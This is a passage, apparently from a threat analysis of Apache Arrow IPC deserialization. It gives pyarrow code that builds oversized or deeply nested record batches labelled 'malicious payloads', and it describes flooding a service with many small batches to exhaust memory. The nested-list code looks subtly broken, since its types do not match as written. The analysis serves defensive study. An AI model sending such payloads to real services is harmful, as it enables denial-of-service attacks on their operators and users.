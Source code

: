    # Serialize the batch to IPC format (this would be sent to the target application).
    with pa.BufferOutputStream() as out:
        with pa.ipc.new_stream(out, schema) as writer:
            writer.write_batch(batch)
        serialized_data = out.getvalue()

    #  serialized_data is now a malicious payload.
    ```

*   **Scenario 2: Deeply Nested Lists (using `ipc::SerializeRecordBatch`)**

    ```python
    import pyarrow as pa
    import pyarrow.ipc

    def create_nested_list(depth):
        if depth == 0:
            return pa.array([], type=pa.int64())
        else:
            return pa.array([create_nested_list(depth - 1)], type=pa.list_(pa.list_(pa.int64())))

    # Create a schema with a nested list field.
    schema = pa.schema([pa.field('nested', pa.list_(pa.list_(pa.int64())))])

    # Create a RecordBatch with a deeply nested list.
    nested_list = create_nested_list(20)  # Adjust depth as needed
    batch = pa.RecordBatch.from_arrays([nested_list], schema)

    # Serialize the batch.
    with pa.BufferOutputStream() as out:
        with pa.ipc.new_stream(out, schema) as writer:
            writer.write_batch(batch)
        serialized_data = out.getvalue()

    # serialized_data is now a malicious payload.
    ```

* **Scenario 3: Large Numeric Array**
    Similar to the string example, but using a numeric type like `pa.int64()`. The attacker would create an array with a very large number of elements.

* **Scenario 4: Many Small Record Batches**
    The attacker sends a continuous stream of small `RecordBatch` objects. While each batch is individually small, the cumulative effect over time exhausts the available memory. This bypasses per-batch size limits.
